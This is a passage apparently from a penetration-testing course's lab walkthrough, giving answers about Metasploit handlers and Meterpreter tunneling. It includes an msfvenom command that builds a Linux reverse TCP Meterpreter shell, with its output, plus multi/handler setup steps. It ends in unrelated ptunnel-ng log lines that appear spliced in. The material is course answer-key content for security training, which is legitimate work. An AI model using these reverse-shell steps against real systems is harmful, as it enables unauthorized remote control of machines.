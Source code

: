 ## Question 2

### "What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x)"

From the reading of the module's section and the usage of `0.0.0.0` as the value for `LHOST` when using the `multi/handler` module of `msfconsole`, students will know that the special IP address `0.0.0.0` will ensure that the handler is listening on all IP addresses assigned to the host.

Answer: `0.0.0.0`

# Meterpreter Tunneling & Port Forwarding

## Question 1

### "What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)"

Students first need to create a Linux reverse TCP shell payload using `msfvenom` on Pwnbox/`PMVPN`:

Code: shell

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=PWNIP LPORT=PWNPO -f elf -o reverseShell
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=8080 -f elf -o reverseShell

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: reverseShell
```

Subsequently, students need to start a `msfconsole` `multi handler`, specifying the payload and port to match the ones used in the `msfvenom` payload:

Code: shell

```shell
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT PWNPO
run
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.